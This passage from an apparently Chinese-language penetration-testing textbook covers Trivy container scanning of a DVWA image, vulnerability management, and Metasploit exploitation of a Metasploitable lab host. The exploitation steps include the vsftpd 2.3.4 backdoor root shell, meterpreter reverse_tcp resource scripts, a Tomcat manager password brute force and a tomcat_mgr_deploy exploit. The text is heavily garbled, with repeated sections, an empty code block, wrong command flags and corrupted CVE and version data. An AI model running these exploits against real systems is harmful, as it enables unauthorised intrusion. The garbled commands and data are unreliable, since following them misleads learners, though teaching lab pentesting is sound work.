2023-02-12:13:51:56+0000 Detected OS: debian

2023-02-12:13:51:56+0000 INFO Detecting vulnerabilities...

2023-02-12:13:51:56+0000 INFO files: 0

2023-02-12:13:51:56+0000 INFO No OS supported by the distribution: debian 9.5

2023-02-12:13:51:56+0000 WARNING The vulnerability may be insufficient because security updates are not provided

Total: 2156 (UNKNOWN: 22, LOW: 72, MEDIUM: 874, HIGH: 83, CRITICAL: 353)

| | VULNERABILITY ID | SEVERITY | INSTALLED VERSION | TITLE |
|---|---|---|---|---|
| LIBRARY | apache2 | CVE-2019-16788 | 2.45-3+debb95 | http: read-after-free in connection shutdown --aququare.com/cve-289 |
| | CVE-2021-26691 | | 2.45-3+debb10 | http: mod_session overflow via a crafted SessionMarker --aququare.com/cve-281 |
| | CVE-2021-39275 | | 2.45-3+debb11 | http: Out-of-bounds write in ap_escape_quote() |
```

图 4.40: 执行扫描

### 6. 忽略已修复漏洞
如图 4.41 所示，运行命令 `sudo trivy --ignore-fixed vulnerable/web-dwva:latest` 以避免无法通过更新所有软件包来修复的漏洞：

```bash
$ sudo trivy --ignore-fixed-vulnerabilities web-dwva:latest

2023-02-17:18:15:81+0000 INFO Detected OS

2023-02-17:18:15:81+0000 INFO Detecting vulnerabilities...

2023-02-17:18:15:81+0000 INFO Scanning image

2023-02-17:18:15:81+0000 WARN This OS is no longer supported by the distribution: debian 9.5

2023-02-17:18:15:81+0000 WARN The vulnerability detection may be insufficient because security updates are not provided

vulnerables/web-dwva:latest (debian 9.5)

Total: 1379 (UNKNOWN): 12, LOW: 326, MEDIUM: 614, HIGH: 465, CRITICAL: 258

| | VULNERABILITY ID | SEVERITY | INSTALLED | FIXED VERSION | |
|---|---|---|---|---||
| apache2 | CVE-2021-40882 | CRITICAL | 2.45-3-deb9u5 | 2.45-3-deb9u8 | http: read-after-free in connection shutdown --aququare.com/cve-2019-... |
| -40882 | | | | | |
| | CVE-2021-26691 | | 2.45-3-debb10 | http: mod_headers overfull via a crafted SessionHeader --aququare.com/cve-2021-... |
| -26691 | | | | | |
| | CVE-2021-39275 | | 2.45-3-debb11 | | Out-of-bounds write in ap_escape_quotes()
```

图 4.41: 忽略已修复

### 7. 分析扫描结果
要过滤并显示严重和高危漏洞，运行命令 `sudo trivy --ignore-unsupported-vulnerabilities CRITICAL,HIGH vulnerabilities/web-dwva:latest`，如图 4.42 所示：

```bash
$ sudo trivy --ignore-unsupported-vulnerabilities CRITICAL,HIGH vulnerabilities/web-dwva:latest

2023-02-17:18:15:81+0000 INFO Detected OS

2023-02-17:18:15:81+0000 INFO Detecting vulnerabilities...

2023-02-17:18:15:81+0000 INFO Scanning image

2023-02-17:18:15:81+0000 WARN This OS is no longer supported by the distribution: debian 9.5

2023-02-17:18:15:81+0000 WARN The vulnerability detection may be insufficient because security updates are not provided

vulnerables/web-dwva:latest (debian 9.5)

Total: 715 (HIGH: 465, CRITICAL: 258)

| | VULNERABILITY ID | SEVERITY | INSTALLED | FIXED VERSION | |
|---|---|---|---|---||
| apache2 | CVE-2021-40882 | CRITICAL | 2.45-3-deb9u5 | 2.45-3-deb9u8 | http: read-after-free in connection shutdown --aququare.com/cve-2019-... |
| -40882 | | | | | |
| | CVE-2021-26691 | | 2.45-3-debb10 | http: mod_headers overfull via a crafted SessionHeader --aququare.com/cve-2021-... |
| -26691 | | | | | |
| | CVE-2021-39275 | | 2.45-3-debb11 | | Out-of-bounds write in ap_escape_quotes()
```

图 4.42: 分析扫描结果

### 8. 生成报告
要以 `JSON` 格式保存扫描结果，运行命令 `sudo trivy --ignore-vulnerable -severity CRITICAL,HIGH -f json dwvascanreport.json vulnerabilities/web-dwva:latest`，如图 4.43 所示：

```bash
command --all -- --root

sudo trivy --ignore-unused --severity CRITICAL,HIGH -f scanreport.json vulnerable/web-dwva:latest

2023-02-13T13:11:13.086-050 INFO Detected OS: debian

2023-02-13T13:11:13.086-050 INFO Scanning for vulnerabilities: -

2023-02-13T13:11:13.086-050 INFO Number of P dependencies: 0

2023-02-13T13:11:13.086-050 WAR This version of trivy is supported by the distribution: debian 9.5

2023-02-13T13:11:13.086-050 WAR The vulnerability detection may be insufficient because security updates are not provided
```


## 9. 转换为报告：将 JSON 结果转换为 CSV 文件

访问网站 `https://data.page/json/csv`，如图 4.44 所示：


图 4.44: 转换报告

> 注意：容器的安全性可以通过在镜像阶段和运行阶段对其进行扫描来确保。在部署之前，镜像扫描有助于识别漏洞和配置错误，而运行时扫描则监控并检测运行期间的任何潜在安全风险。

## 漏洞管理

漏洞管理是维护组织安全的关键方面。它涉及持续的努力以识别、评估和处理潜在的安全威胁和弱点。其目标是防止恶意攻击并最大限度地减少任何发生攻击的后果。

漏洞管理过程通常由几个步骤组成。第一步是漏洞评估，在该步骤中识别并评估潜在风险。这可以通过自动化扫描工具、手动渗透测试或者的结合来实现。接下来，优先级排序步骤涉及确定哪些漏洞对组织构成最大的风险并应该优先处理。这通常使用风险管理框架完成的，根据漏洞的潜在影响和被利用的可能性为每个漏洞分配严重性评分。

一旦识别并确定了漏洞优先级，就会实施应对措施来降低风险。这可能包括应用软件补丁、配置防火墙和入侵检测系统、培训员工安全实践，以及实施访问控制。

漏洞管理有两种主要方法：手动和自动化。在下表 4.1 中，你可以看到这些方法的定义和区别：

| 参数 | 手动漏洞管理 | 自动化漏洞管理 |
| --- | --- | --- |
| 安全专业人员干预 | 需要安全专业人员对系统和应用程序进行漏洞评估，对其进行优先级排序，并采取必要的步骤进行修复。 | 涉及软件工具扫描系统和应用程序的漏洞，提供自动检测、优先级排序和修复建议 |
| 定制化 | 更加全面，允许进行更大的控制和定制 | 支持的定制化较少 |
| 时间和资源消耗 | 耗时且耗资源 | 更快、更高效 |

**表 4.1: 漏洞管理方法**

> 注意：全面的漏洞管理通常涉及手动和自动化方法的结合。虽然自动化漏洞管理更快、更高效，但它可能只识别某些漏洞，其建议可能需要比手动评估获得的建议更高的准确性和定制性。

## 应用安全

应用安全或 `AppSec` 涵盖了在应用层发现、修复和避免软件、硬件和开发过程中安全弱点的实践和程序。将安全测试集成到软件开发生命周期（`SDLC`）的每个阶段（包括需求分析、设计、实现、验证和维护），对于及时全面检测并处理漏洞至关重要。通过从一开始引入 `AppSec` 实践，组织可以显著降低代码、`API` 以及应用程序中使用的第三方组件出现安全漏洞的风险。

应用安全包含两类：

- 静态应用安全测试 (`SAST`)：它检查应用程序的源代码以在部署之前检测安全漏洞。通过在开发过程早期识别潜在缺陷，`SAST` 可以减少后期处理这些问题所需的成本和精力。
- 动态应用安全测试 (`DAST`)：它在应用程序运行时对其进行测试，以发现源代码中可能不可见的漏洞、弱和其他问题。`DAST` 工具模拟对应用程序的攻击，识别攻击者可能利用的潜在漏洞，为应用程序的整体安全态势提供更准确的评估。

## 结论

在本章中，你对漏洞评估和相关的管理策略有了深入的理解。这些新知识和专业知识将使你能够使用手动和自动化方法对各种计算机基础设施进行深度漏洞评估。漏洞管理生命周期将鼓励你不断采用最佳安全实践，最终降低组织的风险成本。此外，你还洞察了准确且针对性的补丁管理的重要性，这将优化你漏洞评估计划的整体效能。掌握了这些知识，你已经准备好识别并修复组织计算机基础设施中的漏洞，使其更加安全，并对潜在的网络攻击具有更强的韧性。

下一章将深入探讨各种主题，涵盖利用网络漏洞和获得未经授权访问的技术。你可以在模拟的真实环境中参与这些技术的操作，与网络设备、数据库和服务器一起工作。在本章结束时，你将在网络渗透测试和利用方面建立坚实的基础，使你能够识别并处理网络漏洞。

## 加入我们书籍的 Discord 空间

加入书籍的 `Discord` 获取最新更新、优惠、全球科技动态、新发布以及与作者的互动会议：`https://discord.ggline`


# 第 5 章
## 利用计算机网络

## 引言

在本章中，我们将深入探讨网络渗透测试的实际方面，通过演示之前章节中识别的漏洞进行利用。利用这些漏洞至关重要，因为有助于确定漏洞的严重性及其潜在影响。为了确保渗透人员全面理解网络安全态势，我们将使用开源工具和手动脚本在测试环境中演示利用。这种方法将使渗透人员能够模拟真实情况，获得实践经验。

## 结构

在本章中，我们将讨论以下主题：

- 理解网络渗透测试
- `Metasploit` 简介
- `Metasploit` 数据库和工作空间管理
- 将 `NMAP` 扫描集成到 `Metasploit`
- `Metasploit` 自动化
- 从辅助 (`auxiliary`) 和利用 (`exploits`) 开始
- 手动利用
- 使用 `Armitage` 进行利用

## 目标

在本章中，我们的目标是深入研究网络渗透方法，演示如何利用漏洞以理解其真实影响。这种实践方法加深了对网络安全的理解，并强调了攻击前收集信息的重要性。通过使用开源工具和手动脚本，我们重建了真实场景以获得全面的理解。

## 理解网络渗透测试

网络渗透测试是识别和缓解组织网络潜在安全风险的关键步骤。在此过程中，渗透人员必须尝试利用已识别的漏洞以获得未经授权的访问或执行可能对组织造成重大损害的未经授权的操作。网络渗透涵盖所有网络设备，包括服务器、数据库和安全控制。高级网络渗透测试通常涉及多个阶段，包括利用、横移动、维持访问、撤销更改、报告与记录以及修复，如图 5.1 所示：



图 5.1：高级网络渗透测试阶段

对于渗透人员来说，理解网络测试对目标环境的意义和潜在影响至关重要。因此，他们必须对目标基础设施有清晰的了解，包括其硬件、软件和网络组件。这些知识将使渗透人员选择合适的攻击向量和技术，同时最大限度地减少任何负面后果。网络渗透测试的成功取决于在侦察和漏洞阶段收集的信息的准确性和完整性。

> 注意：在生产环境中进行渗透测试时，确保操作不会对目标环境造成任何损害或干扰至关重要。渗透人员在整个网络渗透测试过程中必须保持专业素养并遵守伦理准则。

## Metasploit 简介

`Metasploit` Framework 由 `HD Moore` 于 2003 年开发，现在由 `Rapid7` 维护，是一个开源软件工具，被渗透人员、安全研究人员和黑客用于渗透测试、漏洞扫描和利用开发。它使用 `Ruby` 语言编写，旨在提供灵活性和扩展性，使用户可以定制自己的利用程序和载荷（`payload`）。`Metasploit` Framework 提供了许多功能和特性，如下 5.2 所示：

图 5.2：`Metasploit` 框架的功能和特性

平台的主要功能之一是为针对远程目标开发、测试和执行利用程序提供空间。它拥有庞大的利用程序、载荷和辅助模块库，允许用户评估计算机系统和网络的安全性。此外，安全专业人员使用 `Metasploit` Framework 来衡量其安全防御的效率，并针对潜在攻击制定防御方案。

> 注意：`Metasploit` 是一个用于攻击和防御安全的通用工具。安全专业人员依靠它来测试安全措施的有效性并发现潜在漏洞。

## Metasploit 数据库与工作区管理

`Metasploit` 的关键属性是其 `Metasploit` 数据库，它可以有效地在中央数据库中存储和管理与目标、漏洞、会话和利用的数据。例如，在评估期间发现漏洞时，`Metasploit` 数据库可以监控漏洞利用的进度并跟踪攻击的成功。

此外，存储的数据库对所有目标和开放端口进行重新验证非常有用，以检查最新的可利用状态。由于 `Metasploit` 数据库可以于导出、导入并在渗透人员之间共享，它允许从当前阶段就开始进行无缝协作。此外，数据库能够生成详细报告，并对目标系统的安全态提供广泛的见解。

让我们通过以下步骤和命令创建并管理新工作区，深入研究 `Metasploit` 数据库：

1. 运行命令 `systemctl start postgresql` 启动 `PostgreSQL` 服务器，如图 5.3 所示：

```
(ummedneel@kali)-~/Desktop

$ systemctl start postgresql
```

图 5.3：启动 `PostgreSQL` 服务器

2. 使用命令 `msfconsole` 启动 `Metasploit` Framework，如下图 5.4 所示：

```
(ummedneel@kali)-~/Desktop

$ msfconsole
```



```
[ metasploit v6.2.30-dev]

+ -- 2272 exploits - 1191 auxiliary - 404 post

+ -- 945 payloads - 45 encoders - 11 hoops

+ -- 9 evasion
```

`Metasploit` 提示：使用 `show missing` 查看运行模块选项
`Metasploit` 文档：`https://docs.metasploit.com/`
`msf6 >`

图 5.4：启动 `Metasploit` Framework

3. 运行命令 `sudo msfdb init` 初始化 `Metasploit` 数据库，如下图 5.5 所示：

```
(ummedneel@kali)-~/Desktop

$ sudo msfdb init

[+] Starting database

[+] Creating database user 'msf'

[+] Creating databases 'msf'

[+] Creating database 'msf_test'

[+] Creating configuration file '/usr/share/metasploit-framework/config/database.yml'

[+] Creating initial database schema
```

图 5.5：初始化 `Metasploit` 数据库

4. 要检查数据库连接状态，运行命令 `db_status`，如下图 5.6 所示：

```
msf6 > db_status

[*] Connected to msf. Connection type: postgresql

-- : Check the database connectivity status
```

图 5.6：检查数据库状态

5. 使用命令 `workspace [workspace_name]` 创建新工作区，如图 5.7 所示：

```
msf6 > -a ummed_metasploit

[*] Added workspace: ummed_metasploit

[*] workspace: ummed_metasploit

msf6 > |
```

图 5.7：创建一个新工作区

6. 使用命令 `workspace [workspace_name]` 选择新创建的工作区，如图 5.8 所示：

```
msf6 > workspace ummed_metasploit

[*] Workspace: ummed_metasploit
```

图 5.8：选择新创建的工作区

7. 使用命令 `workspace` 查看可用工作区的完整列表，如图 5.9 所示：

```
msf6 > workspace

default

delta_pm

test_project

* ummed_metasploit

msf6 > |
```

图 5.9：查看可用工作区的完整列表

> `Metasploit` 提供数据库管理和工作区管理功能。前者涉及使用 `msfdb` 管理 `PostgreSQL` 数据库，后者允许用户组织与不同安全评估或项目相关的数据。

## 将 NMAP 扫描集成到 Metasploit

创建 `Metasploit` 数据库后，我们可以在 `VAPT`（漏洞评估与渗透测试）练习中利用其实用。例如，可以将 `Nmap` 扫描结果以 `XML` 格式导出并导入 `Metasploit`，以避免端口扫描的重复。此功能可以为渗透人员节省大量的精力和时间，因为他们可以同时对多个目标运行利用。此外，数据库允许对 `Nmap` 数据进行多级分析，例如识别有多少主机开放了端口 `443`，或有多少主机运行 `Windows` 操作系统等。

要学习如何将 `Nmap` 扫描结果导入 `Metasploit`，运行 `db_import [nmap_file]` 命令，如图 5.10 所示：

```
msf6 > db_import /home/ummed/Desktop/nmap.xml

[*] Processing /home/ummed/Desktop/nmap.xml

[*] Imported 1 hosts
```

图 5.10：将 `Nmap` 扫描结果导入 `Metasploit`

现在，为了学习如何利用 `FTP` 服务，可以遵循以下逐步方法：

1. 在整个数据库中搜索 `Linux` 机器，执行命令：`hosts -c address,os_flavor -S`，如图 5.11 所示：

```
msf6 > hosts -c address,os_flavor -S Linux

Hosts
```

| address | os_flavor |
|---|---|
| 192.168.1.129 | Linux ( ) |

2. 同样，搜索开放端口 `21` 的主机，使用命令 `services -c info,name -p 21`，如图 5.12 所示：

```
msf6 > services -c info,name -p 21

Services
```

| host | info | name |
|---|---|---|
| 192.168.1.129 | vsftpd 2.3.4 | ftp |

3. 将选定的主机作为目标，执行命令 `services -c info,name -p 21 -R`。此命令将所有主机添加到目标列表中，并在它们上执行相同的利用，见图 5.13：

```
msf6 > services -c info,name -p 21 -R

Services
```

| host | info | name |
|---|---|---|
| 192.168.1.129 | vsftpd 2.3.4 | ftp |

4. 要在数据库中搜索特定服务的可用利用程序，执行命令 `search vsftpd`，如图 5.14 所示：

```
msf6 > search vsftpd

Matching Modules
```

| Name | Disclosure Date | Rank | Check | Description |
|---|---|---|---|---|
| exploit/unix/ftp/vsftpd_234_backdoor | 2011-07-03 | excellent | No | exploit v2.3.4 Backdoor Command Execution |

通过名称或索引与模块交互。例如 `info 0`, `use 0` 或 `use exploit/unix/ftp/vsftpd_234_backdoor`。

5. 要从利用数据库中选择可用载荷，执行命令 `use exploit/unix/ftp/vsftpd_234_backdoor` 然后执行命令 `show options`。你将看到之前选定的目标已经反映在其中，如图 5.15 所示：

```
msf > use exploit/unix/ftp/vsftpd_234_backdoor

[] No configurator found, defaulting to cmd/unix/interact

msf exploit(unix/ftp/vsftpd_234_backdoor) > show options
```

Module options (`exploit/unix/ftp/vsftpd_234_backdoor`):

| Name | Current Setting | Required | Description |
| --- | --- | --- | --- |
| RHOST | 192.168.1.129 | yes | 目标主机(s)，见 `https://github.com/rapid/metasploit-framework/wiki/Using` |
| RPORT | 21 | | 目标端口 (tcp) |

Payload options (`cmd/unix/interact`):

| Name | Current Setting | Required | Description |
| --- | --- | --- | --- |
| @ | Automatic | yes | 查看完整的模块信息 `-d` 命令。 |

**图 15: 使用合适的 exploit**

6. 此外，为了找到合适的 `payload`，执行 `show payloads` 命令，然后通过执行 `set payload cmd/unix/interact` 来选择 `payload`，如图 16 所示：

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
```

| Name | Disclosure | Rank | Check | Description |
| --- | --- | --- | --- | --- |
| cmd/unix/interact | | normal | No | Unix 命令，已建立连接 |

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact

msf exploit(unix/ftp/vsftpd_234_backdoor) > |
```


### 图 16: 选择 payload

7. 一旦设置完成，执行`exploit`命令。利用成功后，将打开一个命令 shell 以允许访问。通过这种方式，渗透测试人员可以执行任何命令并进行横向移动。见**图 17:**

```
msf exploit (tcp/vsftpd_234_backdoor) > exploit

+   * 192.168.149.129 - Banner: 

*   * 192.168.149.129 - Login: 请指定。

*   * 192.168.149.129 - 后门服务已启动，处理 ...

*   * found shell.

exploit command session 1 opened (192.168.149.129:42471 -> 2023-03-04 08:04:29)
root
ifconfig
eth0:
  linkencap  Hardware 00:05:56:0a:b3:f Mask:255.255.255.0
  inet 192.168.149.129  broadcast 255.255.255
  UP BROADCAST RUNNING MTU:1500 Metric:1
  RX packets:229 dropped:0 overruns:0 frame:0
  TX packets:220 dropped:0 errors:0 carrier:0 collision:0
  TX bytes:43711 (41.7 KB)
eth1:
  linkencap  Hardware 00:05:56:0a:b3:f
  inet 192.168.149.130 broadcast 255.255.255
  UP BROADCAST RUNNING MTU:1500 Metric:1
  RX packets:229 dropped:0 overruns:0 frame:0
  TX packets:220 dropped:0 errors:0 carrier:0 collision:0
  TX bytes:83529 (81.6 KB)
```

**图 17: 命令 shell**

8. 要以`CSV`、`XML`或`JSON`格式导出`Metasploit`数据库，使用命令`db_export -f [file格式] -o [文件名]`，如图 18 所示。

```
msf > db_export -f XML /home/ummeedel/Desktop/metasploit_db_backup.xml

[*] 正在导出 workspace ummed_metasploit 到 /home/ummeedel/Desktop/metasploit_db_backup.xml [ ...]

[*] 已完成导出 workspace ummed_metasploit 到 /home/ummeedel/Desktop/metasploit_db_backup.xml [ ...]

msf > |
```

**图 18: 导出 Metasploit 数据库**

## Metasploit 自动化

Metasploit 自动化指的是使用脚本或工具自动执行 Metasploit 模块、命令和利用的过程。这种方法通过减少手动工作和避免重复任务，为渗透测试人员节省了时间和精力，从而能够快速识别和利用漏洞。Metasploit 自动化可以通过使用 Ruby 或 Python 等脚本语言来实现，最简单的方法是资源文件。资源文件涉及创建一个扩展名为`.rc`的文件，其中包含执行 Metasploit 模块、命令和利用所需的命令和参数。这些脚本可以使用`msfconsole -r`从命令行执行，它会读取文件并执行命令。

这是一个 Metasploit 资源脚本示例，可用于自动化利用：

```
use exploit/multi/http/php_cgi_arg

set RHOSTS 192.168.149.129

set RPORT 80

set payload meterpreter/reverse_tcp

set LHOST 192.168.149.129

set LPORT 4444
```

为了自动化利用，使用脚本语言如 Ruby 或 Python，或者最简单的是资源文件。资源文件涉及创建一个扩展名为`.rc`的文件，其中包含执行 Metasploit 模块、命令和利用所需的命令和参数。这些脚本可以使用`msfconsole -r`从命令行执行，它会读取文件并执行命令。

用于自动化利用的 Metasploit 资源脚本示例如下：

```
use exploit/multi/http/php_cgi_arg

set RHOSTS 192.168.149.129

set RPORT 80

set payload meterpreter/reverse_tcp

set LHOST 192.168.149.129

set LPORT 4444
```


## Metasploit 自动化

Metasploit automation 指的是使用脚本或工具来自动化执行 Metasploit 模块、命令和漏洞利用的过程。这种方法可以减少渗透测试人员的手动工作，避免重复性任务，从而更快地识别和利用漏洞，节省时间和精力。Metasploit 自动化可以通过使用 `Ruby` 或 `Python` 等脚本语言实现，或者最简单的就是使用资源文件。资源文件涉及创建一个 `.rc` 扩展名的文件，其中包含要执行的 Metasploit 模块、命令和漏洞利用的定义命令和参数。这些脚本可以通过命令行使用 `msfconsole -r` 执行，该命令读取文件并执行其中的命令。

以下是一个用于自动化漏洞利用的 Metasploit 资源脚本示例：

```
```


## Metasploit 自动化

Metasploit 自动化指的是使用脚本或工具自动执行 Metasploit 模块、命令和利用的过程。这种方法通过减少手动工作和避免重复任务，可以为渗透测试人员节省时间和精力，从而更快速地识别和利用漏洞。Metasploit 自动化可以通过使用 Ruby 或 Python 等脚本语言来实现，最简单的方法是资源文件。资源文件涉及创建一个扩展名为 `.rc` 的文件，其中包含执行 Metasploit 模块、命令和利用所需的命令和参数。这些脚本可以使用 `msfconsole -r` 从命令行执行，它会读取文件并执行命令。

以下是一个可用于自动化利用的 Metasploit 资源脚本示例：

```
use exploit/multi/http/php_cgi_arg

set RHOSTS 192.168.149.129

set RPORT 80

set payload meterpreter/reverse_tcp

set LHOST 192.168.149.129

set LPORT 4444
```

**图 15：使用适当的 exploit**

6. 此外，要找到合适的 payload，执行命令 `show payloads`，然后通过执行命令 `set payload cmd/unix/interact` 来选择 payload，如图 16 所示：

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > show payloads
```

| Name | Disclosure | Rank | Check | Description |
| --- | --- | --- | --- | --- |
| 0 | payload/unix/interact | | normal | No | Unix Command, Interact |

```
msf exploit(unix/ftp/vsftpd_234_backdoor) > set payload cmd/unix/interact

msf exploit(unix/ftp/vsftpd_23__backdoor) >
```

**图 16：选择 payload**

7. 设置完成后，执行 `exploit` 命令。成功利用后，将打开一个命令行 shell 以允许访问。通过该 shell，渗透测试人员可以执行任何命令并进行横向移动。参见**图 17**：

```
msf exploit (tcp/vsftpd_234_backdoor) > exploit

+   * 192.168.149.129 - Banner: vsftpd 2.3.4

*   * 192.168.149.129 - Login: Please specify the password.

*   * 192.168.149.129 - Backdoor service has been spawned, handling ...

*   found shell.

exploit session 1 opened (192.168.149.129:42471 -> 2023-03-04 08:04:29)

root

ifconfig

eth0:

  linkencap  Hardware 00:05:56:0a:b3:f Mask:255.255.255.0

  inet 192.168.149.129  broadcast 255.255.255

  UP BROADCAST RUNNING MTU:1500 Metric:1

  RX packets:229 dropped:0 overruns:0 frame:0

  TX packets:220 dropped:0 errors:0 carrier:0 collision:0

  TX bytes:43711 (41.7 KB)

eth1:

  linkencap  Hardware 00:05:56:0a:b3:f

  inet 192.168.149.130 broadcast 255.255.255

  UP BROADCAST RUNNING MTU:1500 Metric:1

  RX packets:229 dropped:0 overruns:0 frame:0

  TX packets:220 dropped:0 errors:0 carrier:0 collision:0

  TX bytes:83529 (81.6 KB)
```

图 17：命令 shell

8. 要将 Metasploit 数据库导出为 CSV、XML 或 JSON 格式，使用命令 `db_export -f [file_format] -o [output_file]`，如图 18 所示。

```
msf > db_export -f XML /home/ummeedel/Desktop/metasploit_db_backup.xml

[*] Starting export workspace ummed_metasploit to /home/ummeedel/Desktop/metasploit_db_backup.xml [ ...]

[*] Finished export workspace ummed_metasploit to /home/ummeedel/Desktop/metasploit_db_backup.xml [ ...]

msf >
```


### 图 18：导出 Metasploit 数据库

## Metasploit 自动化

Metasploit 自动化指的是使用脚本或工具自动执行 Metasploit 模块、命令和利用的过程。这种方法通过减少手动工作和避免重复任务，可以为渗透测试人员节省时间和精力，从而更快速地识别和利用漏洞。Metasploit 自动化可以通过使用 Ruby 或 Python 等脚本语言来实现，最简单的方法是资源文件。资源文件涉及创建一个扩展名为 `.rc` 的文件，其中包含执行 Metasploit 模块、命令和利用所需的命令和参数。这些脚本可以使用 `msfconsole -r` 从命令行执行，它会读取文件并执行命令。

以下是一个可用于自动化利用的 Metasploit 资源脚本示例：

```
use exploit/multi/http/php_cgi_arg

set RHOSTS 192.168.149.129

set RPORT 80

set payload meterpreter/reverse_tcp

set LHOST 192.168.149.129

set LPORT 4444
```

## Apache Tomcat

恭喜！

如果你看到此页面，说明这是 Tomcat 首页。它在文件系统中的位置如下：

`$CATALINA_HOME/webapps/ROOT/index.jsp`

上述目录是 Tomcat 的安装目录。如果你看到此页面，你不必担心；你是一个访问了已安装 Tomcat 的用户，要么是一个尚未让 Tomcat 运行的管理员。提供此页面是最后一步，请参阅 Tomcat 文档以获取更多关于安装 Tomcat 的详细信息。

> **注意：** 此页面是生成的。如果你更改了它，除非将其编译到包中，否则它不会再次更改。（参见 `howto` 了解如何编辑此页面。）

**注意：** 出于安全考虑，管理请求限制为具有 "admin" 角色的用户。manager 应用限制具有 "manager" 角色的用户。用户定义在 `users.xml` 文件中。

此版本包含了一系列示例和教程（带有相关源代码）、详尽的文档（包括 Server 2.4 和 JSP 2.0 API 文档），以及在 Tomcat 项目网站上提供的其他示例：

- [tomcat.apache.org]() 用于解决与配置和使用 Tomcat 相关的通用问题
- [tomcatdev]() 用于致力于 Tomcat 开发的开发者

感谢使用 Tomcat！


图 5.22：在 8180 端口打开页面

## 3. 要获取登录凭据，你可以使用 `msf` 中的 `auxiliary/scanner/http/tomcat_mgr_login` 辅助模块并执行命令，如图 5.23 所示。

```bash
msf auxiliary/scanner/http/tomcat_mgr_login

msf use/scanner/http/tomcat_mgr_login SHOST 192.168.1.129

msf use/scanner/http/tomcat_mgr_login PORT 8180

msf use/scanner/http/tomcat_mgr_login RHOST 192.168.1.129

msf use/scanner/http/tomcat_mgr_login RPORT 8180

msf use/scanner/http/tomcat_mgr_login show

Module options (auxiliary/scanner/http/tomcat_mgr_login):
```

| Name | Current | Description |
|---|---|---|
| PASSWORDS | false | Required | 用于从 A 到 Z 爆破解密码 |
| BRUTEFORCE | 5 | no | 在当前数据库中进行爆破解的速度 |
| USER | false | no | 将当前数据库中的所有用户添加到列表 |
| PASS | false | no | 将所有密码...添加到列表 |
| RHOST | 192.168.1.129 | yes | 目标主机地址 |
| RPORT | 8180 | yes | 目标端口 |
| SHOST | 192.168.1.129 | yes | 源主机地址 |
| MANAGER | /manager | yes | manager 应用的路径 |
| TOMCAT | /tomcat | yes | tomcat 应用的路径 |
| USERNAME | false | yes | 用于身份验证的用户名 |
| AS_PASS | false | yes | 用空格分隔的所有用户密码，每行一个 |
| USERFILE | false | no | 尝试将用户名作为所有用户的密码 |
| USFILE | false | yes | 用户文件的路径 |
| VERBOSE | false | no | 是否打印所有尝试的输出 |
| HOST | true | no | HTTP 服务器虚拟主机 |

图 5.23：获取登录凭据

## 4. 运行成功后将显示登录凭据，如图 5.24 所示。

```bash
[-] 192.168.149.129:8180 LOGIN FAILED: tom:admin (Incorrect)

[-] 192.168.149.129:8180 LOGIN FAILED: tom:manager (Incorrect)

[-] 192.168.149.129:8180 LOGIN FAILED: tom:role1 (Incorrect)

[-] 192.168.149.129:8180 LOGIN FAILED: tom:root (Incorrect)

[+] 192.168.149.129:8180 Login Successful: tom:tomcat

[-] 192.168.149.129:8180 LOGIN FAILED: both:admin (Incorrect)

[-] 192.168.149.129:8180 LOGIN FAILED: both:manager (Incorrect)
```

图 5.24：登录凭据

5. 发现凭据后，导航到“列应用程序”（List Applications）选项卡。在这里，你会找到上传文件的各种选项。你可以尝试使用 `msfconsole` 上可用的漏洞利用利用上传漏洞，或使用 `msfvenom` 创建一个新的漏洞利用。见图 5.25：



图 5.25：使用发现的凭据登录

6. 对于漏洞利用，可以使用 `exploit/multi/http/tomcat_mgr_deploy`。你必须确保设置 manager 的用户名和密码，并如图 5.26 所示从辅助模块设置其他选项：

图 5.26：配置并运行漏洞

```bash
msf > use exploit/multi/http/tomcat_mgr_deploy

[*] Using payload meterpreter/reverse_tcp > RHOST 192.168.149.129

msf > use exploit/multi/http/tomcat_mgr_deploy RPORT 8180

msf > use exploit/multi/http/tomcat_mgr_deploy setUsername tomcat

msf > use exploit/multi/http/tomcat_mgr_deploy setPassword tomcat

msf > use exploit/multi/http/tomcat_mgr_deploy exploit

* Started reverse handler target: 192.168.149.129

* Attempting to automatically select target: 'linux'

* Uploading 6942 bytes via meterpreter

* Executing: /tmp/tomcat_mgr_deploy

* Deploying meterpreter...

* Sending stage (50829 bytes) to 192.168.149.129

* Meterpreter session opened (192.168.149.129:57110) on 2023-03-15 23:08:50
```

7. 我们可以使用 `meterpreter` 会话，但尚未 root 权限，如图 5.27 所示：

```bash
meterpreter > sysinfo

Computer : metasploitable

OS : Linux 2.6.24-server (i386)

Architecture : x86

System Language : en_US

Meterpreter > getuid

Server username : tomcat
```

